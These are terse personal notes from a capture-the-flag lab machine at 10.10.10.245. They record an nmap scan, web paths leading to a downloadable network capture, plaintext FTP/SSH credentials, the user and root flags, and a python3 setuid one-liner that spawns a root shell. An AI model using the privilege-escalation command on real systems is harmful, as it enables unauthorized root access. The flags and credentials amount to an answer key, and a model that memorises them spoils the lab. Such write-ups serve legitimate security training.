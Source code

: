 IP:- 10.10.10.245

namp:-
	PORT   STATE SERVICE VERSION
	21/tcp open  ftp     vsftpd 3.0.3
	22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    gunicorn

Dirs:
	/ip
	/data/
	/netstat





From ip/data/0
I have to download the network file!! 
then inspect it!!
there is an FTP service!



USER:- nathan
PASS:- Buck3tH4TF0RM3!


ssh on:-  ssh nathan@10.10.10.245

	user_flag:- 14bad84aeb4d9d0e4dcaf6e47f4e130e


root:x:0:0:root:/root:/bin/bash -> permission dey nah :(
	RS- python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

	root_flag:- cfa83f0f55e63bec1ead8f66a742837f